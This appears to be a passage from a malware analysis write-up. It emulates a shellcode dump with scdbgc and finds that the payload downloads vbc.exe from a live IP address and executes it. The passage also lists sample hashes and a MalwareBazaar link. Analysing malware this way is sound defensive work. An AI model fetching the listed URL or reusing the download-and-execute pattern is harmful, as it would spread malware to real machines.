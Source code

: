 > scdbg is a shellcode analysis application built around the libemu emulation library.

- Basically it analyzes shellcode by emulating its execution. You have 2 versions of this tool, scdbgc is the commandline equivalent of scdbg.

- So we will use 2 parameters with scdbgc:

```
/f fpath  load shellcode from file - accepts binary, %u, \x, %x, hex blob
/findsc   detect possible shellcode buffers (brute force) (supports -dump, -disasm)
```

- Result ``http://107.172.61.141/400/vbc.exe``

```
remnux@remnux:~/Desktop/Malz$ scdbgc /f malware.dump -findsc
Loaded 1008 bytes from file malware.dump
Testing 4104 offsets  |  Percent Complete: 99%  |  Completed in 385 ms
0) offset=0x93c        steps=MAX    final_eip=7c80ae40   GetProcAddress
1) offset=0xae5        steps=MAX    final_eip=7c80ae40   GetProcAddress

Select index to execute:: (int/reg) 0
0
Loaded 1008 bytes from file malware.dump
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000
Execution starts at file offset 93c
40193c	58                              pop eax
40193d	E9A4010000                      jmp 0x401ae6  vv
401942	828F9C463744C1                  or byte [edi+0x4437469c],0xc1
401949	EC                              in al,dx
40194a	AA                              stosb 


401d0f	GetProcAddress(ExpandEnvironmentStringsW)
401d42	ExpandEnvironmentStringsW(%PUBLIC%\vbc.exe, dst=12fbdc, sz=104)
401d57	LoadLibraryW(UrlMon)
401d72	GetProcAddress(URLDownloadToFileW)
401dc8	URLDownloadToFileW(http://107.172.61.141/400/vbc.exe, C:\users\Public\vbc.exe)
401ddf	LoadLibraryW(shell32)
401df5	GetProcAddress(ShellExecuteW)
401e04	unhooked call to shell32.ShellExecuteW	step=39675

Stepcount 39675
```

- And the end, we need to analyst file ``vbc.exe`` to get more IOCs.

- Sample file malware: 
[Link Sample Malware](https://bazaar.abuse.ch/sample/e9e38b2108b6dc9911fac6c1e6bf7b8fa017847f56ceeab19b96f187db9e5bac/ 'Sample Malware File')

```
IOCs: 
SHA256 hash:	 e9e38b2108b6dc9911fac6c1e6bf7b8fa017847f56ceeab19b96f187db9e5bac
SHA3-384 hash:	 276a598e422566a85df69db9f4f596ffb0145919938400d5acb5ddc7827334d2d7b5e57f5fceea4d675c2321cfaa4de1
SHA1 hash:	 ad741a688d86c35ee6972a6c4fb723a8541807dc
MD5 hash:	 4ca4b59bef307a91d7757d002f4b70a8
humanhash:	 hawaii-failed-mobile-sixteen
File name:	4ca4b59bef307a91d7757d002f4b70a8
```
